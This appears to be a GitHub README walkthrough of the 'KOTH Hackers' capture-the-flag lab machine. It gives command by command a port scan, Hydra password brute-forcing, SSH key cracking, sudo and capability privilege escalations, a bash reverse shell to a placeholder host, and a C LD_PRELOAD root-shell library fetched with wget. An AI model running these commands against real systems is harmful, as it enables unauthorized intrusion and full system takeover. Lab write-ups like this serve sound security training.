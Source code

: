# KOTH HACKERS<br />

-------------
## IP: `10.10.228.111`<br />

----------------------
### Open Ports Via Nmap -<br />

`nmap -sC -sV 10.10.228.1115`

```
21
22
80
9999
```

![image](images/nmap.png)

----------------------
#### Subdirectories Via Gobuster -<br />

```
/news
/contact
/img
/staff
/backdoor
```

![image](images/gobuster.png)

----------------------
##### Login via ftp `anonymously` - <br />

> We'll get a note, which will give us usernames to brute-force (:

![image](images/anon.png)


> When we cat that note, we get-<br/>

![image](images/note.png)

------------------------
##### Gcrawford Credentials Via Hydra -<br/>

```
hydra -l gcrawford -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
```
![image](images/gcrawford.png)


username: gcrawford<br />
password: PAOLA<br />

> Login via ftp using these creds

![image](images/gcrawftp.png)

`We got id_rsa of gcrawford user from cd /.ssh/id_rsa`

> Since it's a protected private key we need to crack the passphrase for `id_rsa` of gcrawford using JohnTheRipper<br />

`ssh2john id_rsa > forjohn`

`john forjohn --wordlist=/usr/share/wordlists/rockyou.txt`

> We Got The Pass For Private Key

![image](images/john.png)


```
id_rsa:25192519 
```

`login via gcrawford using id_rsa`

```
ssh -i id_rsa gcrawford@10.10.228.111
```

##### privilege escalation of `gcrawford` user cuz of sudo ability over `nano`<br/>

`sudo -l`

We can see nano's [Gtfo-Bins](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

------------------------
##### Rcampbell Credentials Via Hydra -<br />

```
hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
``` 

![image](images/rcampbell.png)

username: rcampbell<br />
password: molly<br />

###### Login via ftp using rcampbell credentials -<br/>

`ftp 10.10.228.111`

![image](images/ftp.png)

##### Login via ssh with rcampbell with the same password of this user for ftp and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
![image](images/capabilities.png)


> Now to get root, we can do -<br/>

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```
![image](images/rcamp.png)

##### Crack the password for [backdoor](http://10.10.228.111/backdoor)<br />

![image](images/backdoor.png)


```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.228.111 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect" -IV
```
![image](images/plague.png)


username: plague<br />
password: twentyone<br />

> start a net-cat listener on your machine, and we can get a rev-shell using -<br/>

`nc -lnvp <port>`<br/>

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
![image](images/bash.png)

 ![image](images/nc.png)


##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using this c code -<br />

First, let's try to check for `sudo abilities` of user production by running command:<br />

`sudo -l`<br />

![image](images/productionSudo.png)

We see `openssl` in sudo list, we can abuse it to get root let's check it's [Gtfo-Bins For Library Load Using Openssl](https://gtfobins.github.io/gtfobins/openssl/#library-load)

Check out this blog for more on it [ld_preload-privesc](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)<br />

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`<br/>

![image](images/gcc.png)

> start a python server and transfer the shell.so to machine<br/>

`python3 -m http.server 80`<br/>

`wget <ip>/shell.so`<br/>

`chmod +x shell.so`<br/>

```
sudo openssl req -engine ./shell.so
```
![image](images/openssl.png)